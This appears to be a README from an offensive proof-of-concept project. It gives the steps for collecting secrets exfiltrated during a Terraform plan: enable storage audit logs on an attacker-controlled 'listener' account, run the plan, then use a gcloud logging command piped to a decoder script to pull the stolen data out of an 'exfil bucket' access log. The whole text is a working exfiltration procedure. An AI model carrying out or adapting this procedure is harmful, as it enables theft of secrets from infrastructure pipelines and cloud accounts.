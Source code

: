 # Steps

1. Enable [Data Access audit logs](https://cloud.google.com/logging/docs/audit/configure-data-access) for Google Cloud Storage Data Read type logs on your listener account.
2. Run Terraform Plan.
3. Dump the exfiltrated data with the following command:
```
gcloud logging --project <attacker project name> read 'protoPayload.methodName="storage.objects.get" AND resource.labels.bucket_name="<exfil bucket name>"' --limit=100 --format="value(protoPayload.resourceName)" \
  | cut -d'/' -f 6 > dumpaccesslogs.txt \
  && python3 decoder.py dumpaccesslogs.txt secrets
```
